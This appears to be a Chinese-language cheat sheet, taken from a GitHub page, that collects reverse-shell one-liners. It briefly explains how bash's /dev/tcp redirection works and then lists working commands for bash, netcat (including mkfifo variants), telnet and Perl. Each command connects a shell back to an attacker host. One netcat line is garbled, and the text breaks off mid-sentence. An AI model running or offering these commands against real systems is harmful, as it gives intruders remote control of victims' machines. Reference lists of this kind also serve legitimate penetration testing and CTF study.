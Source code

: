 1. bash -i

打开一个交互的bash

2. &> /dev/tcp/10.0.0.10/23333

在linux下一切皆文件,实际访问/dev/tcp/10.0.0.10/23333，其实是不存在的

而向/dev/tcp/10.0.0.10/23333发送信息,实际上会发信息给10.0.0.10的23333端口



## 反弹shell脚本总结

### 0x01 bash 版本：

```
bash -i >& /dev/tcp/attackerip/1234 0>&1
```

注意这个是由解析 shell 的 bash 完成，所以某些情况下不支持。我用 zsh 不能反弹。这个也是最常用的。

### 0x02 nc 版本：

支持 - e 选项

```
nc -e /bin/sh attackerip 1234
```

这个方式最简单
不能使用 - e 选项时：

```
mknod backpipe p && nc attackerip 8080 0<backpipe | /bin/bash 1>backpipe/bin/sh | nc attackerip 4444 rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/
```

安装的 NC 版本有问题时：

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attackerip 1234 >/tmp/f
```

### 0x03 Telnet 版本：(nc 不可用或 / dev/tcp 不可用时)

```
mknod backpipe p && telnet attackerip 8080 0<backpipe | /bin/bash 1>backpipe
```

### 0x04 Perl 版本：

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

不依赖于 / bin/sh 的 shell： *** 这条语句比上面的更为简短，而且确实不需要依赖 / bin/sh
